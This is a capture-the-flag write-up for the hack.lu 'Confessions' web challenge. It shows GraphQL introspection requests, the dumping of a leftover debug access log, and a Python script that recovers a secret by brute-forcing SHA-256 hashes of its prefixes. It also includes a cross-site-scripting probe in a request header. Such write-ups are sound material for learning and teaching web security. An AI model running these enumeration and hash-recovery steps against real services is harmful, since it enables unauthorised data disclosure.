



# confessions

:::toc

## Introduction

This is a writeup for the "Confessions" challenge from the hacklu CTF. I consider this a great challenge, as it uses a technology, namely graphql, that isn't often used in most CTFs and due to me never having used it before required some searching, but not in an exaggerated way.

## Getting started

The start of all challenges: getting to know the challenge. In this case, the first thing we see is a pink page:

The functionality this page provides can be described as follows: You enter a title and a message, then receive a hash. You can post this hash anywhere and then, sometime in the future post a link containing the message.

This concept allows proving that you've got something afterwards. For example, I used such a concept in the nahamcon-CTF to prove my [complete flagleak](/ctf/writeups/2020/nahamconCTF/complete-flag-leak/). Overall, this allows proving that some information was accessible at some given time.

## Initial sourcecode view

After slightly inspecting the page, the next step would be to look into the page source:

> <!doctype html>
> <html>
>     <head>
>         <meta charset="utf-8">
>         <title>Confessions 💕</title>
>         <link rel="stylesheet" href="confessions.css">
>     </head>
>     <body>
>         <h1>
>             [Confessions](/)
>             💕
>         </h1>
> 
>         

>             

>                 Ever wanted to prove that you knew some secret without
>                 revealing it right away?
>                   
>                 You can confess your deepest secrets here!
>                 Send the hash to anyone or post it.
>                 When you want to reveal the secret, just give them the link.
>                 They can then check that the hash matches the message,
>                 so they know that you knew that secret message when you
>                 published the hash!
>             

> 
>             <input id="title" placeholder="Title">
>             <textarea id="message" placeholder="Enter your confession here..."></textarea>
>             <button id="publish">Publish</button>
> 
>             <h3>Preview:</h3>
>         

> 
>         

>             <h4 class="title">&lt;title&gt;</h4>
> 
>             
Hash

>             
&lt;hash&gt;

> 
>             
Message

>             
&lt;message&gt;

> 
>             
How to verify

>             
&lt;how to verify&gt;

>         

> 
>         
>     </body>
> </html>

The page doesn't consist of much, there's some static html content, some css and some javascript. The static content doesn't do anything, so lets don't even bother into looking into it. The interesting part is the javascript, in this case, the confessions.js file. Let's go through it block by block:

The part below "talks with the GraphQL endpoint", so it communicates with the GraphQL system in the backend sending a JSON body containing the operation name (hardcoded to null), a query (more regarding that in the next block) and variables to the backend. It then reads the response and returns the response data.

> // talk to the GraphQL endpoint
> const gql = async (query, variables={}) => {
>     let response = await fetch('/graphql', {
>         method: 'POST',
>         headers: {
>             'content-type': 'application/json',
>         },
>         body: JSON.stringify({
>             operationName: null,
>             query,
>             variables,
>         }),
>     });
>     let json = await response.json();
>     if (json.errors && json.errors.length) {
>         throw json.errors;
>     } else {
>         return json.data;
>     }
> };

This block below defines the queries sent to the backend, these are used in the code above when sent to the backend. More on them later on.

> // some queries/mutations
> const getConfession = async hash => gql('query Q($hash: String) { confession(hash: $hash) { title, hash } }', { hash }).then(d => d.confession);
> const getConfessionWithMessage = async id => gql('mutation Q($id: String) { confessionWithMessage(id: $id) { title, hash, message } }', { id }).then(d => d.confessionWithMessage);
> const addConfession = async (title, message) => gql('mutation M($title: String, $message: String) { addConfession(title: $title, message: $message) { id } }', { title, message }).then(d => d.addConfession);
> const previewHash = async (title, message) => gql('mutation M($title: String, $message: String) { addConfession(title: $title, message: $message) { hash } }', { title, message }).then(d => d.addConfession);
> The next block is just a misleading comment, as this is just random foo not relevant in any way.

> // the important elements
> const title = document.querySelector('#title');
> const message = document.querySelector('#message');
> const publish = document.querySelector('#publish');
> const preview = document.querySelector('#preview');
> The block below renders a given confession. Nothing of interest here.

> // render a confession
> const show = async confession => {
>     if (confession) {
>         preview.querySelector('.title').textContent = confession.title || '<title>';
>         preview.querySelector('.hash').textContent = confession.hash || '<hash>';
>         preview.querySelector('.message').textContent = confession.message || '<message>';
>         preview.querySelector('.how-to-verify').textContent = `sha256(${JSON.stringify(confession.message || '')})`;
>     } else {
>         preview.innerHTML = '<em>Not found :(</em>';
>     }
> };

And the next block updates the preview.

> // update the confession preview
> const update = async () => {
>     let { hash } = await previewHash(title.value, message.value);
>     let confession = await getConfession(hash);
>     await show({
>         ...confession,
>         message: message.value,
>     });
> };
> title.oninput = update;
> message.oninput = update;

This block publishes the confession, it adds the confession to the backend and uses the given id to redirect to the url with the appended id that is used.

> // publish a confession
> publish.onclick = async () => {
>     title.disabled = true;
>     message.disabled = true;
>     publish.disabled = true;
> 
>     let { id } = await addConfession(title.value, message.value);
>     location.href = `#${id}`;
>     location.reload();
> };

This block uses the confession id given in the url and displays that confession.

> // show a confession when one is given in the location hash
> if (location.hash) {
>     let id = location.hash.slice(1);
>     document.querySelector('#input').remove();
>     getConfessionWithMessage(id).then(show).catch(() => document.write('F'));
> }

Now after having some basic understanding of what this javascript does, we need a better understanding of how this actually works, as in: what can we do?, what can we break?

## Initial usage

Well, we can insert a title and a message. While entering this, we get a live preview of the hash. If we look into the requests sent while typing, we see the following:

...lots and lots of requests to the /graphql endpoint. Thus our next task is born: looking into these requests.

## Inspecting the sent requests

The requests sent while entering stuff look like this:

> POST /graphql HTTP/1.1
> Host: confessions.flu.xxx
> User-Agent: alert(1)
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: https://confessions.flu.xxx/
> content-type: application/json
> Origin: https://confessions.flu.xxx
> Content-Length: 187
> Connection: close
> Cookie: session=s%3A9wDzGivuPGi2__m1CaDR5rRuZw_DN4m1.htC5hdkX0sr4eYWb9CdTRidgXDQrBYRfpUQ28hIhOgI
> Pragma: no-cache
> Cache-Control: no-cache
> 
> {
>   "operationName": null,
>   "query": "query Q($hash: String) { confession(hash: $hash) { title, hash } }",
>   "variables": {
>     "hash": "014c3d0b13f6bc2d05dd32139a2178f17b1fe08ae5755882e9049817377f3c61"
>   }
> }

The interesting part here is the query, so from here on, I won't insert all headers into all requests.

## Playing with graphql

The [GraphQL](https://graphql.org/) documentation has a [great learning section](https://graphql.org/learn/), I used this to learn the basics used further down.

### Getting the schema

One of the first things I tried, was getting the schema used. this can be done using [graphql introspection](https://graphql.org/learn/introspection/):

> POST /graphql HTTP/1.1
> Host: confessions.flu.xxx
>  
> ...
>  
> Cookie: session=s%3A9wDzGivuPGi2__m1CaDR5rRuZw_DN4m1.htC5hdkX0sr4eYWb9CdTRidgXDQrBYRfpUQ28hIhOgI
> 
> {
>   "operationName": null,
>   "query": "{__schema {types{name}}}",
>   "variables": {
>     "hash": "9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08"
>   }
> }
>  
> {
>   "data": {
>     "__schema": {
>       "types": [
>         {
>           "name": "Query"
>         },
>         {
>           "name": "Access"
>         },
> 
> 		...
> 
>         {
>           "name": "Int"
>         }
>       ]
>     }
>   }
> }

here all the "name" values:

> "Query"
> "Access"
> "String"
> "Confession"
> "Mutation"
> "__Schema"
> "__Type"
> "__TypeKind"
> "Boolean"
> "__Field"
> "__InputValue"
> "__EnumValue"
> "__Directive"
> "__DirectiveLocation"
> "CacheControlScope"
> "Upload"
> "Int"

### Getting the object fields

With the schema information acquired, we can get the fields for the objects:

> POST /graphql HTTP/1.1
> Host: confessions.flu.xxx
>  
> ...
>  
> Cookie: session=s%3A9wDzGivuPGi2__m1CaDR5rRuZw_DN4m1.htC5hdkX0sr4eYWb9CdTRidgXDQrBYRfpUQ28hIhOgI
>  
> {
>   "operationName": null,
>   "query": "{__type(name: \"Confession\") {name, fields { name } }}",
>   "variables": {
>     "hash": "Confession"
>   }
> }
>  
> {
>   "data": {
>     "__type": {
>       "name": "Confession",
>       "fields": [
>         {
>           "name": "id"
>         },
>         {
>           "name": "title"
>         },
>         {
>           "name": "hash"
>         },
>         {
>           "name": "message"
>         }
>       ]
>     }
>   }
> }

We've already got this information: we can extract if from the queries defined in the javascript, but never the less, It's nice to know that there aren't more fields that we're possibly overlooking.

### Getting the types

When listing all types in the schema, we get an interesting result:

> POST /graphql HTTP/1.1
> Host: confessions.flu.xxx
>  
> ...
>  
> Cookie: session=s%3A9wDzGivuPGi2__m1CaDR5rRuZw_DN4m1.htC5hdkX0sr4eYWb9CdTRidgXDQrBYRfpUQ28hIhOgI
>  
> {
>   "operationName": null,
>   "query": "{__schema {queryType{fields{name, description}}}}",
>   "variables": {
>     "hash": "9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08"
>   }
> }
>  
> {
>   "data": {
>     "__schema": {
>       "queryType": {
>         "fields": [
>           {
>             "name": "accessLog",
>             "description": "Show the resolver access log. TODO: remove before production release"
>           },
>           {
>             "name": "confession",
>             "description": "Get a confession by its hash. Does not contain confidential data."
>           }
>         ]
>       }
>     }
>   }
> }

The "accessLog" contains a description hinting that this should be removed before taking the application into production.

### Getting all access logs

As the "accessLog" should not be in production, there seems to be an error that is somehow critical. Thus, getting the accessLog seems like a logical next step. In order to get the accessLog, we first need to get the name of the fields in the accessLog, as we want to fetch all fields.

> POST /graphql HTTP/1.1
> Host: confessions.flu.xxx
>  
> ...
>  
> Cookie: session=s%3A9wDzGivuPGi2__m1CaDR5rRuZw_DN4m1.htC5hdkX0sr4eYWb9CdTRidgXDQrBYRfpUQ28hIhOgI
> Cache-Control: no-cache
>  
> {
>   "operationName": null,
>   "query": "{__type(name: \"Access\"){name, kind, fields{name, description, type{name, kind, description}}}}",
>   "variables": {
>     "id": "40dbcdf5-31ec-428a-a42e-ec2f75452efe"
>   }
> }
>  
> {
>   "data": {
>     "__type": {
>       "name": "Access",
>       "kind": "OBJECT",
>       "fields": [
>         {
>           "name": "timestamp",
>           "description": "",
>           "type": {
>             "name": "String",
>             "kind": "SCALAR",
>             "description": "The `String` scalar type represents textual data, represented as UTF-8 character sequences. The String type is most often used by GraphQL to represent free-form human-readable text."
>           }
>         },
>         {
>           "name": "name",
>           "description": "",
>           "type": {
>             "name": "String",
>             "kind": "SCALAR",
>             "description": "The `String` scalar type represents textual data, represented as UTF-8 character sequences. The String type is most often used by GraphQL to represent free-form human-readable text."
>           }
>         },
>         {
>           "name": "args",
>           "description": "",
>           "type": {
>             "name": "String",
>             "kind": "SCALAR",
>             "description": "The `String` scalar type represents textual data, represented as UTF-8 character sequences. The String type is most often used by GraphQL to represent free-form human-readable text."
>           }
>         }
>       ]
>     }
>   }
> }

As you can see, there are three fields: "timestamp", "name" and "args". With this information, we can now fetch the access log:

> POST /graphql HTTP/1.1
> Host: confessions.flu.xxx
> Cookie: session=s%3A9wDzGivuPGi2__m1CaDR5rRuZw_DN4m1.htC5hdkX0sr4eYWb9CdTRidgXDQrBYRfpUQ28hIhOgI
>  
> {
>   "operationName": null,
>   "query": "{accessLog{timestamp, name, args}}",
>   "variables": {
>     "id": "40dbcdf5-31ec-428a-a42e-ec2f75452efe"
>   }
> }
>  
> {
>   "data": {
>     "accessLog": [
>       {
>         "timestamp": "Fri Oct 23 2020 01:46:56 GMT+0000 (Coordinated Universal Time)",
>         "name": "addConfession",
>         "args": "{\"title\":\"<redacted>\",\"message\":\"<redacted>\"}"
>       },
>       {
>         "timestamp": "Fri Oct 23 2020 01:46:56 GMT+0000 (Coordinated Universal Time)",
>         "name": "confession",
>         "args": "{\"hash\":\"252f10c83610ebca1a059c0bae8255eba2f95be4d1d7bcfa89d7248a82d9f111\"}"
>       },
>       {
>         "timestamp": "Fri Oct 23 2020 01:46:57 GMT+0000 (Coordinated Universal Time)",
>         "name": "addConfession",
>         "args": "{\"title\":\"<redacted>\",\"message\":\"<redacted>\"}"
>       },
>       {
>         "timestamp": "Fri Oct 23 2020 01:46:57 GMT+0000 (Coordinated Universal Time)",
>         "name": "confession",
>         "args": "{\"hash\":\"593f2d04aab251f60c9e4b8bbc1e05a34e920980ec08351a18459b2bc7dbf2f6\"}"
>       },
>       {
>         "timestamp": "Fri Oct 23 2020 01:46:58 GMT+0000 (Coordinated Universal Time)",
>         "name": "addConfession",
>         "args": "{\"title\":\"<redacted>\",\"message\":\"<redacted>\"}"
>       },
>       {
>         "timestamp": "Fri Oct 23 2020 01:46:58 GMT+0000 (Coordinated Universal Time)",
>         "name": "confession",
>         "args": "{\"hash\":\"c310f60bb9f3c59c43c73ff8c7af10268de81d4f787eb04e443bbc4aaf5ecb83\"}"
>       },
> 
>       ...
> 
>       {
>         "timestamp": "Fri Oct 23 2020 16:09:08 GMT+0000 (Coordinated Universal Time)",
>         "name": "accessLog",
>         "args": "{}"
>       }
>     ]
>   }
> }

Now this is interesting. My first through was to use one of the predefined query strings in order to leak the message, but the provided function taking in a hash doesn't return the message, but just the title of the message, so we need to find another solution...

## Extracting the message

One of the first things to do when getting a hash, is to throw it into crackstation and find out if it is crackable, so we extract the hashes from the accessLog response and throw the first few into crackstation. We get this as a result:

As you can see, the first n hashes consist of the first n chars from the flag. Due to crackstations wordlist not knowing the rest of the flag format, it can't show us a result. But we've got the next hashes, so in order to find out what that next char after flag is, we can simply try out all possible combinations (flaga, flagb, ...), hash them and compare the hash with the hash we've got:

> import hashlib
>  
> hashes = [
> "252f10c83610ebca1a059c0bae8255eba2f95be4d1d7bcfa89d7248a82d9f111",
> "593f2d04aab251f60c9e4b8bbc1e05a34e920980ec08351a18459b2bc7dbf2f6",
> "c310f60bb9f3c59c43c73ff8c7af10268de81d4f787eb04e443bbc4aaf5ecb83",
> "807d0fbcae7c4b20518d4d85664f6820aafdf936104122c5073e7744c46c4b87",
> "0577f6995695564dbf3e17ef36bf02ee73ba10ab300caf751315615e0fc6dd37",
> "9271dd87ec1a208d1a6b25f8c4e3b21e36c75c02b62fafc48cf1327bac220e48",
> "95f5e39cb28767940602ce3241def53c42d399ae1daf086c9b3863d50a640a81",
> "62663931ff47a4c77e88916d96cad247f6e2c352a628021a1b60690d88625d75",
> "5534607d1f4ee755bc11d75d082147803841bc3959de77d6159fca79a637ac77",
> "52a88481cc6123cc10f4abb55a0a77bf96d286f457f6d7c3088aaf286c881b76",
> "7ffcb9b3a723070230441d3c7aee14528ca23d46764c78365f5fdf24d0cdef53",
> "532e4cecd0320ccb0a634956598c900170bd5c6f1f22941938180fe719b61d37",
> "a4b24c8f4f14444005c7023e9d2f75199201910af98aaef621dc01cb6e63f1d1",
> "1092c20127f3231234eadf0dd5bee65b5f48ffbdc94e5bf928e3605781a8c0d1",
> "1e261929cc13a0e9ecf66d3e6508c14b79c305fa10768b232088e6c2bfb3efa3",
> "0bb629dfb5bf8a50ef20cfff123756005b32a6e0db1486bd1a05b4a7ddfd16c7",
> "0141c897af69e82bc9fde85a4c99b6e693f6eb390b9abdeda4a34953f82efa4b",
> "c20ee107ba4d41370cc354bb4662f3efb6b7c14e7b652394aaa1ad0341e4a1c9",
> "d6b977c1deb6179c7b9ac11fb2ce231b100cf1891a1102d02d8f7fbea057b8a0",
> "fb7dc9b1be6477cea0e23fdc157ff6b67ce075b70453e55bb22a6542255093f1",
> "70b652dad63cabed8241c43ba5879cc6d509076f778610098a20154eb8ac1b89",
> "26f4fc4aba06942e5e9c5935d78da3512907fe666e1f1f186cf79ac14b82fcad",
> "c31c26dbbcf2e7c21223c9f80822c6b8f413e43a2e95797e8b58763605aaca0d",
> "eb992e46fb842592270cd9d932ba6350841966480c6de55985725bbf714a861d",
> "c21af990b2bd859d99cfd24330c859a4c1ae2f13b0722962ae320a460c5e0468",
> "ebf2b799b6bf20653927092dae99a6b0fc0094abc706ca1dce66c5d154b4542d",
> "07a272d52750c9ab31588402d5fb8954e3e5174fcab9291e835859a5f8f34cf9",
> "5a047cba5d6e0cf62d2618149290180e1476106d71bd9fdb7b1f0c41437c2ff5"
> ]
>  
> flag = ""
>  
> for hash in hashes:
>  
> 	# build all hashes for most of the ascii range
> 	for i in range(32, 126):
>  
> 		# define the hash
> 		m = hashlib.sha256()
> 		m.update(str(flag + str(chr(i))).encode("utf-8"))
>  
> 		# if the hash of the guessed char equals the given hash, add the
> 		# char to the flag
> 		if m.hexdigest() == hash.strip("\n"):
> 			print(chr(i), end="")
> 			flag += chr(i)
> 			break
> 
> print(flag)

> flag{but_pls_d0nt_t3ll_any1}

And finally, we get the flag!